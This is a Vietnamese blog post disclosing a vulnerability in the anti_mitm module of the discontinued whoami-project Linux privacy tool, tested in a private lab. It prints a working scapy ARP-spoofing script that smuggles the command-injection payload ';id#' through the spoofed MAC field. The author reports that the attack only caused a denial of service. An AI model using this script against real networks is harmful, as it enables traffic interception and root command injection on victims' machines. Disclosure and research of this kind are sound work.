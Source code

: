 ```yaml
---
title: "ARPSPOOF và CVE đầu tiên"
date: 2024-09-11
---
```


# Mở đầu
Trong bài viết này chúng ta sẽ cùng đi qua 1 open-source project khá nổi nhưng hiện giờ không còn maintain nữa đó là [whoami-project](https://github.com/owerdogan/whoami-project).
Đây là 1 công cụ về bảo mật cá nhân "giúp nâng cao quyền riêng tư và ẩn danh" trên các hệ điều hành Linux. Project này có 1 module tên là anti_mitm cho việc "Automatically bans the attacker when you come under a Man In The Middle attack", nhưng mà module này lại có 1 lỗ hổng khá nghiêm trọng mà mình nhận thấy và phía dưới ta sẽ cùng phân tích kĩ hơn.
                                                                                                                                      
## Setup môi trường
Trong scenario của attack này, ta sẽ có 2 machine:
- Attacker: Attacker machine mình sẽ sử dụng Kali VM với IP 192.168.98.132
- Victim: Phía victim machine sẽ là Ubuntu với IP 192.168.98.133
- Cài đặt project ở bên máy victim:

![image](https://gist.github.com/user-attachments/assets/279e460c-0242-4dc9-b15a-96670767d287)

# Phân tích
## Cấu trúc project
Sau khi cài đặt xong, ta khởi chạy chương trình như bên dưới và ta có thể thấy sẽ có vài option cho các arguments mà project cho phép.  

![image](https://gist.github.com/user-attachments/assets/de2140e6-07c4-4f8a-a7c4-7e59ff7843c3)

Khi chạy lệnh "sudo kali-whoami --start" ta sẽ được menu trông như sau:

![image](https://gist.github.com/user-attachments/assets/7fbba0cf-3736-4040-8725-a038dae73db9)

Có vẻ như trong menu trên thì đó là các module, function mà ta có thể chọn để sử dụng, thay vì nghịch thử các options thì mình đi tìm thẳng source code cho các function trên luôn, ở phía dưới sẽ là cấu trúc thư mục của project, ta có thể thấy là có vẻ như source code của các module, function trên sẽ nằm ở thư mục whoami-project/assets/scripts/

![image](https://gist.github.com/user-attachments/assets/80e512b7-f714-4d1b-9dec-b38b13ad7f35)

Sau 1 hồi đọc hết tất cả các file trong thư mục whoami-project/assets/scripts/, thì có 1 file mình để ý nhất đó là anti_mitm, và dưới đây là đoạn code của nó:

![image](https://gist.github.com/user-attachments/assets/08e6a403-de64-49b8-bc8d-650f993f1ae2)

Module này sẽ dùng cho việc ngăn việc bị tấn công Man in the middle (MITM) bằng cách kiểm tra những gói ARP gửi đến và nếu như có dấu hiệu cho việc ARP spoofing thì sẽ viết ra rule firewall để drop hết tất cả các requests đến từ địa chỉ MAC spoofing

## Phân tích luồng thực thi
Đọc file kali-whoami.sh, tức là file dùng để khởi động chương trình, như bên dưới ta sẽ thấy các options, các module, function của project được list ra:

![image](https://gist.github.com/user-attachments/assets/ad1912d3-b1f8-4ec7-bcbe-77cc293cfaa0)

Và dưới đây sẽ là đoạn code phụ trách cho việc khởi động module anti_mitm:

![image](https://gist.github.com/user-attachments/assets/5993e97d-46e1-402c-b5cc-ce2a16ce08c5)

Ta thấy chương trình sẽ cần ta chạy ở quyền root, và nếu ta chọn module anti_mitm thì sẽ tương đương với việc chạy command:
```
sudo python3 /usr/share/kali-whoami/assets/scripts/anti_mitm
```
Giờ ta sẽ đi vào đoạn code và cách hoạt động của file anti_mitm.

## Phân tích lỗ hổng

![image](https://gist.github.com/user-attachments/assets/663b76b7-75d1-4046-9af3-72a8131fd183)

![image](https://gist.github.com/user-attachments/assets/b76a6475-0dfe-4243-9eec-ceafa63b8080)

![image](https://gist.github.com/user-attachments/assets/938dce10-4330-4d81-98b4-7fdce3cd4be5)

![image](https://gist.github.com/user-attachments/assets/3e3ae611-6a8b-4706-80cb-05ab2b9762a3)

![image](https://gist.github.com/user-attachments/assets/76f1a445-d809-4dd6-ad10-1bac2863a9af)

# Khai thác

Nhưng mà quan trọng là nếu ta thực sự có thể command injection được vào đoạn command kia thì ta sẽ thành được cả root của machine, đơn giản là vì đoạn code này sử dụng scapy, mà scapy sử dụng Python socket library để tạo raw sockets, và để tạo được raw sockets thì sẽ phải cần quyền của root.

Ref: https://stackoverflow.com/questions/22421290/scapy-operation-not-permitted-when-sending-packets#:~:text=Scapy%20needs%20root%20privileges%20to,the%20Linux%20raw%20man%20pages

Đây sẽ là đoạn code exploit của mình:
```
import scapy.all as scapy 
import time 
  
def get_mac(ip): 
    arp_request = scapy.ARP(pdst = ip) 
    broadcast = scapy.Ether(dst ="ff:ff:ff:ff:ff:ff") 
    arp_request_broadcast = broadcast / arp_request 
    answered_list = scapy.srp(arp_request_broadcast, timeout = 5, verbose = False)[0] 
    return answered_list[0][1].hwsrc 
  
def spoof(target_ip, spoof_ip): 
    packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = get_mac(target_ip), psrc = spoof_ip, hwsrc=";id#") # Payload ở đây
    scapy.send(packet, verbose = False) 
  
  
def restore(destination_ip, source_ip): 
    destination_mac = get_mac(destination_ip) 
    source_mac = get_mac(source_ip) 
    packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac) 
    scapy.send(packet, verbose = False) 
      
  
target_ip = "192.168.98.133"
gateway_ip = "192.168.98.1"
  
try: 
    sent_packets_count = 0
    while True: 
        spoof(target_ip, gateway_ip) 
        spoof(gateway_ip, target_ip) 
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="") 
        time.sleep(2)
  
except KeyboardInterrupt: 
    print("\nCtrl + C pressed.............Exiting") 
    restore(gateway_ip, target_ip) 
    restore(target_ip, gateway_ip) 
    print("[+] Arp Spoof Stopped") 

```
Đoạn code trên sẽ gửi packet kèm với địa chỉ MAC malicious như trên để test, mỗi 2 giây đoạn code sẽ gửi packet này lại 1 lần.

![image](https://gist.github.com/user-attachments/assets/912db067-6bec-4e3e-a206-fb88a00531b0)

Sau khi thực thi đoạn code exploit thì ở bên phía attacker, nếu như ta gọi đến module đó, và quan trọng là module này chắc chắn phải ở quyền của root thì mới có thể chạy được ở phía victim:

![image](https://gist.github.com/user-attachments/assets/1576e27c-06c1-4066-bac5-1905b38a8bdc)

Ta thấy sau khi thực hiện ARP attack, payload của ta sẽ được bytes object và khi đi vào code sẽ trở thành cộng chuỗi với bytes và xảy ra lỗi. 

Vậy liệu có cách để mà làm cho payload này trở thành hoạt động được không, nó cũng đồng nghĩa với việc là ta cần phải làm cho payload tự động decode lại thành string, nhưng đáng buồn là ta chỉ làm được 9 điểm thôi, câu điểm 10 để lại vậy =)))) Impact đến đây dừng lại ở DOS nhưng ít ra ta cũng có cách để ngăn cho rule firewall không được viết ra khi victim sử dụng service. 

Sau khi làm được từ đầu đến cuối lỗ hổng này thì mình cũng tìm cho mình được 2 cái "CVE cỏ" nhờ vào việc tập cách setup rồi debug các kiểu, feels good man :D Còn nếu bro nghĩ như title là tôi sẽ phân tích cách tìm CVE đầu tiên như nào thì thôi không có đâu, chỉ thông báo flex thế thôi chứ còn CVE xịn rồi ngồi phân tích sau :v                                                                                                                               
                                                                                                                                      
